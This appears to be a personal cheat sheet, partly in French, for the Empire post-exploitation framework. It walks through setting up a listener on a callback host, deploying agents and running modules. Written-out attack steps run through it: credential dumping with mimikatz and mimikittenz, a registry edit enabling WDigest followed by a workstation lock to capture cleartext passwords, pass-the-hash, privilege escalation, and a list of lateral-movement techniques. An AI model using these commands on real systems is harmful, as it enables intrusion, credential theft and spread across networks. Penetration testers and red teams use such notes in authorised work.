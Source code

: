 ##Empire

ps-empire serveur
ps-empire client

#llisteners context
listeners
help
back

#créer un listener
uselistener <wait> 

* killdate - temp de vie du listener
* stagingkey -  key pour chiffrer les communications entre l'agent et le listener 
* workinghours - limite le temps d'activité du listener
* defaultdelay - specifie le delais de reponse ( les agents ne sont pas synchronisés)
 par defaut 5s (l'agent demande des renseignement au listener) , IP deja mise, port 80

set DefaultDelay 1
set Port 9999
set Host http://<IP>:9999
execute
listeners

#deployer un agent
usestager <wait> 
options  
set Listener <listener>
generate


#active agent
agents
help
rename XXXX agent1
list

interact agent1
help
info

#modules
usemodule <tab> 
	*  code_execution: These modules let you run code, including Metasploit payloads, on the target box. collection: These modules let you pillage information from the target machine.
	* credentials: These modules let you plunder usernames, hashes, and passwords from the target.
	* exploitation: These modules let you exploit additional targets.
	* lateral_movement: These modules let you pivot to other target machines.
	* management: These modules are associated with system administration functions on the target.
	* persistence: These modules will make your agent survive across user logoff or reboot.
	* privesc: These modules provide privilege escalation exploits.
	* recon: These are the reconnaissance modules.
* situational_awareness: These modules pull information from the target environment, including scanners and related tools.
    * trollsploit : troll, play audio, pop dialog
    
    
usemodule <wait> 
execute 
view 1


#pour le shell
shell <commande>
view 2

#créer un nouveau agent 
psinject http <3304(pid)>

#import script
scriptimport /opt/ps/Sherlock.ps1
scriptcmd Find-AllVulns
jobs

#pour finir
agents 
kill all
y
listeners 
kill all
exit


#modules
situational_awarness/network/powerview/get_user
situational_awarness/network/powerview/get_computer
situational_awarness/network/powerview/find_localadmin_access #connexion sur tous les hosts 
#check : shell dir \\<host>\C$


hash
	usemodule powershell/credentials/powerdump
	#mimikittenz
	scriptimport /opt/mimikittenz/Invoke-mimikittenz.ps1
	scriptcmd Invoke-mimikittenz
	#mimikatz
	changer la cle de registre pour avoir les mdp dans LSASS # +besoin que le user se reconecte, ici on verouille l'ordinateur pour le pas redemarer 
	shell reg add
	HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredentials /t REG_DWORD /d 1 /f
	shell rundll32.exe user32.dll,LockWorkStation

PTH
	credentials/mimikatz/pth
	
privesc
	usemodule powershell/privesc/ask

	If you are already admin, you can attempt to use the classic getsystem module
	usemodule privesc/getsystem

lateral mouvement
	inveigh_relay 					#smbrelay
	invoke_executemsbuild 	#execute msbild local/remote
	invoke_psremoting 			#execute stager on host using psremoting
	invoke_sqloscmd 				# stager on host using xp_cmdshell
	inkoke_wmi 						#stager on wmi 
	jenkins_script_console
	invoke_dcom #MMC20
	invoke_psexec
	invoke_smbexec
	invoke_sshcommand
	new_gpo_immediate_task
